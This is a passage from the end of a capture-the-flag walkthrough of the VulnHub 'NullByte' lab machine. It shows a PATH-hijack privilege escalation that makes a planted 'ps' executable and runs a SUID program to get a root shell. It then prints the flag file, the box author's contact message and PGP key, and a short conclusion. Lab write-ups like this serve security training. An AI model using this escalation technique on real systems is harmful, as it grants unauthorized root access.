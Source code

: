     :::text
    ramses@NullByte:/var/www/backup$ chmod +x ~/ps

We add the directory where we created this file to our PATH:

    :::text
    ramses@NullByte:/var/www/backup$ export PATH=~/:$PATH

We execute the original program:

    :::text
    ramses@NullByte:/var/www/backup$ ./procwatch

Magic happened, we got a root shell:

    :::text
    # whoami
    root

Now we just need to search the flag:

    # ls /root
    proof.txt
    # cat /root/proof.txt
    adf11c7a9e6523e630aaf3b9b7acb51d

    It seems that you have pwned the box, congrats.
    Now you done that I wanna talk with you. Write a walk & mail at
    xly0n@sigaint.org attach the walk and proof.txt
    If sigaint.org is down you may mail at nbsly0n@gmail.com


    USE THIS PGP PUBLIC KEY

    -----BEGIN PGP PUBLIC KEY BLOCK-----
    Version: BCPG C# v1.6.1.0

    mQENBFW9BX8BCACVNFJtV4KeFa/TgJZgNefJQ+fD1+LNEGnv5rw3uSV+jWigpxrJ
    Q3tO375S1KRrYxhHjEh0HKwTBCIopIcRFFRy1Qg9uW7cxYnTlDTp9QERuQ7hQOFT
    e4QU3gZPd/VibPhzbJC/pdbDpuxqU8iKxqQr0VmTX6wIGwN8GlrnKr1/xhSRTprq
    Cu7OyNC8+HKu/NpJ7j8mxDTLrvoD+hD21usssThXgZJ5a31iMWj4i0WUEKFN22KK
    +z9pmlOJ5Xfhc2xx+WHtST53Ewk8D+Hjn+mh4s9/pjppdpMFUhr1poXPsI2HTWNe
    YcvzcQHwzXj6hvtcXlJj+yzM2iEuRdIJ1r41ABEBAAG0EW5ic2x5MG5AZ21haWwu
    Y29tiQEcBBABAgAGBQJVvQV/AAoJENDZ4VE7RHERJVkH/RUeh6qn116Lf5mAScNS
    HhWTUulxIllPmnOPxB9/yk0j6fvWE9dDtcS9eFgKCthUQts7OFPhc3ilbYA2Fz7q
    m7iAe97aW8pz3AeD6f6MX53Un70B3Z8yJFQbdusbQa1+MI2CCJL44Q/J5654vIGn
    XQk6Oc7xWEgxLH+IjNQgh6V+MTce8fOp2SEVPcMZZuz2+XI9nrCV1dfAcwJJyF58
    RryD57olIyb9GsQgZkvPjHCg5JMdzQqOBoJZFPw/nNCEwQexWrgW7bqL/N8
    TM2C0X57+ok7eqj8gUEuX/6FxBtYPpqUIaRT9kdeJPYHsiLJlZcXM0HZrPVvt1HU
    Gms=
    =PiAQ
    -----END PGP PUBLIC KEY BLOCK-----

## Conclusion

This box was fun. The url were unpredictable and dirbuster doesn't spoil all the
fun for us. Thank to [@ly0nx](https://twitter.com/@ly0nx) for this box and
[vulnhub](http://vulnhub.com) as always.
